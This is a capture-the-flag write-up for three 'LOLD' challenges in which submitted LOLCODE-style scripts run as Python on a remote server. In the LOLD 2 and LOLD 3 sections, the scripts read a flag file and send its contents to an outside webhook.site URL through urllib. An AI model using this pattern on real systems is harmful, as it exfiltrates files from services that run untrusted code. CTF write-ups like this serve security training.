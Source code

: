 # LOLD 1,2,3 - Scripting

We were in all 3 challenges the same python2 file

and i use this command to compile LOLD code to python

```
$ python2 lolpython.py --convert code.lold && python2 code.py 
```

## LOLD (easy)


> HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND FLAG IS EVEN AT /flag.txt.

Started by understanding basic instructions.

```
VISIBLE was translated to print
CAN HAZ to (
OK to )
THING to ()
```

![LOLD](img/LOLD_codium.png)

I wrote a LOLD program to print `/flag.txt`
```
f CAN HAZ open WIT '/flag.txt' OK
VISIBLE f OWN read THING
```
so that was translated to python:
```py
f = open ( '/flag.txt' ) 
print f . read ()
```
and that worked and gaved us the flag

![LOLD](img/LOLD_terminal.png)

## Curiosity 

At this point i was curious on what i can really do here. I was given possibly a docker machine and i could run anything. Maybe they have more code there. What can i really find here?

Did an `ls` and reallized i was at `/`. Surely i was in a docker.

I searched and found the code was at `/opt/challenge/`. 

4 files:
- flag.txt \
contains the flag!
- test.py \
maybe an admin added that there to test the challenge
- lolpython.py \
our source code
- entry.py \
ahh here we go. That program is the connection. We give it code, it compile and save it to `/tmp` and runs it.

## LOLD 2 (medium)

> HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! AND WE HAZ MADE SUM UPGRADEZ! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND WE SAY YAY! AND FLAG IS EVEN AT /flag.txt! 

I run the same program but this time i couldnt find a way to print since they just replied if the run was succeful or not.

I just had to do a call an request and send the containts of the `/flag.txt` file.

And why read the `/flag.txt` when we already know its the same in `/opt/challenge/flag.txt`

```
GIMME urllib
f CAN HAZ open WIT '/opt/challenge/flag.txt' OK 
flag CAN HAZ f OWN read THING
VISIBLE urllib OWN urlopen WIT " https://webhook.site/<REDACTED>?LOLD2= " ALONG WITH flag OK OWN read THING
```
```py
import urllib 
f = open ( '/opt/challenge/flag.txt' ) 
flag = f . read ()
print urllib . urlopen ( ' https://webhook.site/<REDACTED>?LOLD2= ' + flag ) . read ()
```

![LOLD](img/LOLD2_terminal.png)
![LOLD](img/LOLD2_webhook.png)

## LOLD 3 (hard)

> HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! AND WE HAZ MADE SUM UPGRADEZ! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND WE SAY YAY! BUT URGHHHH NOW WE HAVE LOST THE FLAG!?! YOU HAZ TO FIND IT!! 

Well we already know what to do ;)

```
GIMME urllib
f CAN HAZ open WIT '/opt/challenge/flag.txt' OK 
flag CAN HAZ f OWN read THING
VISIBLE urllib OWN urlopen WIT " https://webhook.site/<REDACTED>?LOLD3= " ALONG WITH flag OK OWN read THING
```
```py
import urllib 
f = open ( '/opt/challenge/flag.txt' ) 
flag = f . read ()
print urllib . urlopen ( ' https://webhook.site/<REDACTED>?LOLD3= ' + flag ) . read ()
```

![LOLD](img/LOLD3_webhook.png)